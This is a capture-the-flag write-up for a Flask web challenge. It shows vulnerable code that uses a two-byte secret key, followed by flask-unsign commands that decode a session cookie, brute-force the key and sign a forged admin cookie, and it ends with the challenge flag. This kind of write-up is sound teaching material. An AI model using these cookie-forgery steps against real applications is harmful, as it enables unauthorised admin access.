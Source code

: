 ## Web/flask
### Description
Only users registered as admin should be allowed to view the flag.

Site: flasksessions.io.ept.gg
### Solution

When opening the website we are presented with a minimal login screen. 
![](flask01.png)

When reviewing the code we can see that if we register the name admin it will abort and give us a 403 (forbidden). But when looking at the page which will give us the flag it will only give us the flag if our name is admin. The name was read from the session-cookie.
```python
    if name == "admin":
        abort(403)
    ...
    name = session.get('name')
    if name and name == "admin":
        return make_response(render_template('index.html', name=name, flag=flag))
```

When logged in as something different than admin a cookie is generated for us. 
![](flask02.png)
This cookie can be decoded.
```
$ flask-unsign --decode --cookie  "eyJuYW1lIjoiRmVzc2VNaXNrIn0.Y2tf5w.COcKdbnP6Tq6v5cMSilh6rLxPt4"
{'name': 'FesseMisk'} 
```
Now it seemed obvious what we were to do to get our flag. We needed to change the cookie from `{'name': 'FesseMisk'} ` to `{'name': 'admin'}`.
Even though we managed to decode a cookie without problem, it isn't as easy to sign a new one. We need the secret_key so propperly sign our cookie. This is a security mechanism used to prevent hacking attempts that change cookie values as we are doing now. Luckily we have the application code and can see what the secret_key for signing cookies is. 

```python
def generate_random_key():
    key = randbytes(1)
    key += choice(ascii_lowercase).encode("ascii")
    return key
...
app.secret_key = generate_random_key()
```
Using two bytes as a secret key is definitly not a secure key. 
A wordlist was made out of the two possible bytes `[ (0,255), (97,122) ]` and used to brute force the correct signing key. 
```
$ flask-unsign --unsign --cookie  "eyJuYW1lIjoiRmVzc2VNaXNrIn0.Y2tf5w.COcKdbnP6Tq6v5cMSilh6rLxPt4" --wordlist wl.txt
...
[+] secret found after 640 attempts
'\x13x'
```

It was a easy key to bruteforce, and now that we have it we can sign our new cookie. Passing the byte 0x13 as an agrument was a hurdle for us to overcome, but is done as shown below. 

`flask-unsign --sign --cookie "{'name': 'admin'}" --secret $'\x13x'` 

With our new cookie containing `'name': 'admin'` signed with the correct key we are good to go! Copy it and paste this into the session cookie value field before updating the page gave us access to the admin site and thus the flag.  ![](flask03.png)

### Flag
`EPT{flask-sessions-with-weak-key-is-no-goodie}`